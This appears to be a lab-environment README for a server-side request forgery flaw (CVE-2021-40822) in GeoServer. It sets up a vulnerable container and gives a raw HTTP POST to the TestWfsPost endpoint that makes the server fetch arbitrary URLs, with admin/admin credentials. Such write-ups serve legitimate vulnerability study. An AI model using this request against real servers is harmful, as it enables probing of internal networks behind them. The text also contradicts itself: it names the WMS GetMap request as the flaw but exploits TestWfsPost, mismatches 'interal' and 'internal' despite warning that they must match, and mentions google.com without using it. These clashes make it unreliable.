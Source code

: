 # GeoServer SSRF Vulnerability (CVE-2021-40822)

[中文版本(Chinese version)](README.zh-cn.md)

GeoServer is an open-source software server written in Java that provides the ability to view, edit, and share geospatial data. It is designed to be a flexible, efficient solution for distributing geospatial data from a variety of sources such as Geographic Information System (GIS) databases, web-based data, and personal datasets.

In GeoServer versions prior to 2.19.3, 2.18.5, and 2.17.6, there is a Server-Side Request Forgery (SSRF) vulnerability in the WMS GetMap request. An attacker can exploit this vulnerability to make requests to internal or external services through the GeoServer server.

References:

- <https://github.com/geoserver/geoserver/security/advisories/GHSA-7g5f-wrx8-5ccf>
- <https://nvd.nist.gov/vuln/detail/CVE-2021-40822>

## Vulnerable Environment

Execute the following command to start a GeoServer 2.19.1 server:

```
docker compose up -d
```

After the server is started, you can browse the default page of GeoServer at `http://your-ip:8080/geoserver`.

## Exploit

The vulnerability exists in the `TestWfsPost` endpoint. An attacker can use the `url` parameter to make the server send requests to arbitrary URLs. The endpoint accepts several parameters:

- `url`: The target URL that GeoServer will send request to
- `body`: The request body to be sent. If this parameter is empty, GeoServer will send a GET request; if it contains any value, GeoServer will send a POST request
- `username`: Username for basic authentication (optional)
- `password`: Password for basic authentication (optional)

Send the following request to the `TestWfsPost` endpoint:

```
POST /geoserver/TestWfsPost HTTP/1.1
Host: internal
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 96

form_hf_0=&url=http://interal/geoserver/../&body=testtest&username=admin&password=admin
```

Use `google.com` as the target URL, and you will see that response from `google.com` is returned.

![](1.png)

> Note: The host in the `url` parameter must match the `Host` header in your request, otherwise GeoServer will return an error. For example, if the domain in `url` parameter is `internal`, then the `Host` header should also be `internal`.
